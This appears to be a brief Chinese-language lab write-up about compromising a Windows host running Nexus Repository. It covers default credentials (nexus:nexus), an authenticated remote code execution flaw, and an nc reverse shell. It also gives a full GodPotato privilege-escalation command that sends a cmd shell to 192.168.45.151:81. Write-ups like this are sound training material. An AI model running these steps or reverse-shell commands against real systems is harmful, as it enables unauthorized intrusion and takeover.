








# 信息收集

## nmap



# nexus漏洞利用



该版本存在经过身份验证的远程代码执行

上网搜索nexus的默认密码，最终尝试出来密码为`nexus:nexus`

先上传nc.exe,然后利用nc反弹shell







# 提权

可以通过该权限来提权,工具来源：

[BeichenDream/GodPotato --- BeichenDream/GodPotato](./https://github.com/BeichenDream/GodPotato)





通过该工具来运行nc反弹shell

```
GodPotato-NET4.exe -cmd "cmd /c C:\Users\nathan\Nexus\nexus-3.21.0-05\nc64.exe -e cmd 192.168.45.151 81"
```

